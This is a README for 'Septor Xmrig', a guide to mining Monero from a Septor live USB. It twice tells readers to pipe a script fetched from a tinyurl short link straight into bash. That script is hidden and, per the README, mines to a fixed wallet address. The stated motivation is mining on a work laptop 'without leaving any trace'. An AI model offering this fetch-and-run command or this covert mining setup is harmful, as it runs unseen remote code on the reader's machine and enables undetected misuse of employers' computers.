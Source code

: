 # Septor Xmrig

WARNING: This is a beta version. It uses a fixed wallet address for testing purposes.


If you already have a Septor USB just run this command

```
wget -O- - tinyurl.com/4z5afjef | bash
```


## Full Installation

1. Download Septor from [SourceForge](https://sourceforge.net/projects/septor/files/download_/) This guid is tested with 2021.5 version.
1. Burn it to a USB drive using [Balena Etcher](https://www.balena.io/etcher/)
1. Start your PC and choose to boot from the USB stick. You may need to press F2, F10 or F12 at boot time.
1. Choose Live in the Septor menu.
1. Ensure you have a network connection wifi or cable.
1. After booting search for the Konsole application
1. Execute the install and mining script
```
wget -O- - tinyurl.com/4z5afjef | bash
```

## Hashrate

Once you have the miner running you can check the hashrate and calculate how much you can earn from this CPU.

## Motivation

Someone asked me: how can I mine with my work's laptop without leaving any trace on it?
That's why I'm using Monero, Septor and supportxmr.

## Coming soon
1. Screenshots
1. Monero wallet configuration

